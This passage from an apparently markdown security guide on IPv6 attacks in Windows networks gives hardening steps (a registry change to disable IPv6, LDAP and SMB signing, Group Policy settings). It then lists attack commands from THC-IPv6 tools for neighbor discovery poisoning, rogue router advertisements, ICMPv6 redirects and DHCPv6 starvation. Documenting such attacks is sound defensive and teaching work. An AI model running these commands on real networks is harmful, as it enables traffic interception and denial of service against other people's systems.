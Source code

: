 #### Network Level
```bash
# Disable IPv6 if not needed (Registry)
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip6\Parameters" /v DisabledComponents /t REG_DWORD /d 255 /f

# Configure proper IPv6 security policies
# Implement IPv6 access control lists (ACLs)
# Monitor IPv6 traffic with IDS/IPS
```

#### Active Directory Level
```bash
# Enable LDAP signing
# Require SMB signing
# Implement LAPS for local admin passwords
# Use Protected Users group for sensitive accounts
```

#### Group Policy Settings
```
Computer Configuration > Administrative Templates > Network > DNS Client
- Turn off multicast name resolution: Enabled

Computer Configuration > Administrative Templates > Network > Network Connections
- Prohibit installation and configuration of Network Bridge: Enabled
```

## Other IPv6 Attacks

### 1. Neighbor Discovery Poisoning
```bash
# Use parasite6 for neighbor discovery attacks
parasite6 -l eth0

# Use fake_router6 for router advertisement attacks
fake_router6 -a eth0 2001:db8::1/64
```

### 2. ICMPv6 Redirect Attacks
```bash
# Redirect IPv6 traffic
redir6 eth0 victim_ipv6 attacker_ipv6 target_ipv6
```

### 3. DHCPv6 Starvation
```bash
# Exhaust DHCPv6 pool
dos-new-ip6 eth0
```

## Tools and Resources
